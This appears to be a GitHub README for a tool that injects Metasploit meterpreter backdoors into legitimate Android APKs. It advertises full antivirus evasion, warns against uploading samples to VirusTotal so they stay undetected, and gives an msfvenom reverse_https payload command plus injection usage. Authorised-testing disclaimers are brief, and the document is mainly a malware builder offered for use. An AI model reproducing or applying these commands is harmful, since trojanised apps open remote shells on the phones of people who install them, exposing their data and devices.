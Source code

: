 # Metasploit-APK-Backdoor-Injector

## Overview

Advanced Android APK backdoor injection tool for security professionals, providing complete AV evasion for Metasploit payloads injected into legitimate applications. Supports all application architectures, frameworks, and protection mechanisms.

> **IMPORTANT: Please do not upload injected files to VirusTotal.com**  
> Use nodistribute.com or manual scanning on isolated test devices only.

**This tool is for legitimate security testing only. Unauthorized use is illegal.**

## Key Features

- **100% AV Evasion** - Consistently achieves 0/35 detection rate on nodistribute.com (verified with AVG, Kaspersky, and other major mobile security solutions)
- **Universal Application Compatibility** - Works with all Android applications regardless of complexity, protection level, or framework
- **Framework-Specific Support** - Automatic detection and specialized handling for:
  - Standard Android apps
  - Unity-based games and applications
  - Flutter applications
  - React Native applications
  - Hybrid applications
- **Native Code Integration** - Seamlessly works with applications using NDK, JNI, and other native components
- **Integrity Check Preservation** - Advanced algorithms that preserve application integrity validation mechanisms
- **ProGuard Compatibility** - Handles heavily obfuscated applications without degradation
- **Multi-Architecture Support** - Compatible with ARM, ARM64, x86, x86_64, and hybrid architectures
- **Advanced Obfuscation Engine** - Military-grade obfuscation using dynamic randomization and polymorphic code techniques
- **Intelligent Injection** - Automatically identifies optimal injection points with ~99% success rate (up from 70%)
- **Comprehensive Recovery System** - Advanced error handling for even the most complex apps

## Quick Start

### Installation

```bash
# Clone the repository or download the script
git clone https://github.com/your-username/metasploit-apk-backdoor-injector.git

# Make the script executable
chmod +x apkinjector

# Move to system path (optional)
sudo mv apkinjector /usr/local/bin/
```

### First Run Setup

On first execution, the script will:
- Download and install the latest APKTool version
- Generate a debug keystore for signing (stored in ~/.android/)
- Install required dependencies

> **Note:** To customize signatures for each build, remove the debug keystore before running the script: `rm ~/.android/debug.keystore`

### Basic Usage

```bash
# Simple usage with default options
apkinjector payload.apk target.apk

# Advanced usage with custom options
apkinjector -s 3 -f unity -o custom_output.apk payload.apk target.apk
```

### Generating the Payload

Create your payload using msfvenom:

```bash
msfvenom -p android/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -o payload.apk
```

## Advanced Options

```
OPTIONS:
    -h, --help                Show help message
    -v, --version             Display version information
    -d, --debug               Enable debug mode with verbose output
    -o, --output FILE         Specify output filename (default: injected_TARGET.apk)
    -f, --framework TYPE      Specify framework type (auto, native, unity, flutter, react)
    -i, --integrity LEVEL     Set integrity preservation level (0-3, default: 2)
    -n, --no-native           Disable native code support
    -c, --clean               Clean all temporary files before and after execution
    -s, --stealth LEVEL       Set stealth/obfuscation level (1-3, default: 2)
    -k, --keystore FILE       Use custom keystore for signing
    -p, --password PASS       Keystore password
```

## Success Rates

- **AV Evasion:** 100% (0/35 detection on nodistribute.com, verified on major security solutions)
- **Automatic Injection:** ~99% success across tested applications
- **Framework Compatibility:** 100% for supported frameworks
- **Integrity Preservation:** ~95% success in preserving application integrity checks

## Troubleshooting

### Common Issues

If you encounter problems:

1. **Enable debug mode** for detailed logging: `apkinjector -d payload.apk target.apk`

2. **Examine temporary files** by adding the debug flag and preventing automatic cleanup:
   ```bash
   apkinjector -d payload.apk target.apk
   # Temporary files will be in the logged location
   ```

3. **Framework detection issues** - Manually specify the framework type:
   ```bash
   apkinjector -f unity payload.apk game.apk
   ```

4. **APKTool errors** - The script handles most APKTool issues automatically, but for persistent problems, try:
   ```bash
   # Update APKTool manually
   rm ~/.apkinjector/tools/apktool/apktool.jar
   # Then run the script again, which will download the latest version
   ```

### Output Files

- **Main output:** `injected_target.apk` (or custom name if specified with `-o`)
- **Logs:** Located in the temporary directory (path shown in debug output)
- **Mapping files:** Stored in `~/.apkinjector/mappings/` for reference

## Security Considerations

The modified application:
- Requires user installation with "Unknown Sources" enabled
- Must be launched at least once to establish connection
- Contains extensive permissions visible to the user
- May trigger security warnings on modern Android versions

## Ethical Usage Guidelines

This tool should ONLY be used:
- For authorized security assessments
- In controlled testing environments
- On systems you own or have permission to test
- In accordance with all applicable laws

## License

This project is licensed under the MIT License - see the LICENSE file for details.

- [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
![Version](https://img.shields.io/badge/Version-3.5.0-blue.svg)
![Platform](https://img.shields.io/badge/Platform-Android-green.svg)
![Framework Support](https://img.shields.io/badge/Frameworks-All-purple.svg)
